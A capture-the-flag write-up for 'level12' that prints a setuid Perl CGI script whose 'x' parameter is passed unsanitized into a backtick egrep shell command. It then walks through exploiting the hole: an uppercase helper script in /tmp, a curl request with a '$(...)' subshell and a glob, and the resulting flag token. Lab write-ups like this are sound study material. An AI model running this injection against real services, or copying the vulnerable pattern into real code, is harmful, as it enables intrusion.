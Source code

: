 ## writeup level12

When logging in as user leve12, we see a perl file:
```shell
$ ls -l level12.pl
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

$ cat ./level12.pl
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
We also see the script is running on port `4646`:
```shell
$ netstat -tulpn | grep 4646
tcp6       0      0 :::4646                 :::*                    LISTEN      -
```
So by quickly analyzing this perl script, we see that we can pass in an `x` parameter which will be uppercased and every space/newline and everything after it will be removed. \
Then it will be used inside the shell execution `egrep "^OUR_PARAM" /tmp/xd 2>&1`. We might wan't to try executing `getflag` somehow: \
So we will need to create a script in uppercase in /tmp, and with the help of a subshell and globbing we will be able to execute it:
```shell
$ cat > /tmp/GETFLAG <<EOF
#!/bin/sh
getflag > /tmp/flag
EOF

$ chmod +x /tmp/GETFLAG

$ curl localhost:4646?x='$(/*/getflag)'

..$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr